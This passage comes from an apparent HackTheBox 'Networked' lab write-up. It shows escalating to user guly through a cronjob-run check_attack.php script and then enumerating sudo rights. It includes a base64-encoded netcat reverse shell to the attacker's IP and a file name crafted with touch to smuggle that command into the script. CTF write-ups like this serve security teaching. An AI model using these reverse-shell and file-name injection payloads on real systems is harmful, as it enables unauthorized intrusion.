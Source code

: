 	3. Start listener
	4. Wait for cronjob to execute
		![](Pasted%20image%2020220913050342.png)
	5. `guly` shell obtained
		![](Pasted%20image%2020220913050514.png)
	6. Create our command injection file (2)
		1. Encode Payload

			```
			bash-4.2$ echo 'nc 10.10.14.19 4444 -e /bin/bash' | base64
			bmMgMTAuMTAuMTQuMTkgNDQ0NCAtZSAvYmluL2Jhc2gK
			```

		2. Create file

			```
			bash-4.2$ bash-4.2$ touch ';echo bmMgMTAuMTAuMTQuMTkgNDQ0NCAtZSAvYmluL2Jhc2gK | base64 -d | sh; id'
			```

	7. Start listener
	8. Wait for cronjob to execute
		![](Pasted%20image%2020220913055843.png) 
8. Demo - `check_attack.php` Privilege Escalation
	<html>
	<head>
	<link rel="stylesheet" type="text/css" href="/asciinema-player.css" />
	</head>
	<body>
	<div id="check_attack_priv_esc"></div>
	<script src="/asciinema-player.min.js"></script>
	<script>
		AsciinemaPlayer.create('https://raw.githubusercontent.com/yufongg/yufongg.github.io/main/_posts/Writeups/HackTheBox/Linux/Networked/images/check_attack_priv_esc.cast', document.getElementById('check_attack_priv_esc'), { 
		loop: true,
		autoPlay: true
			});
	</script>
	</body>
	</html>

## Root - Enumeration

1. Check `guly` sudo access

	```
	[guly@networked tmp]$ sudo -l
	Matching Defaults entries for guly on networked:
	    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
	    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
	    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
	    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
	    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
	    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
	    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
	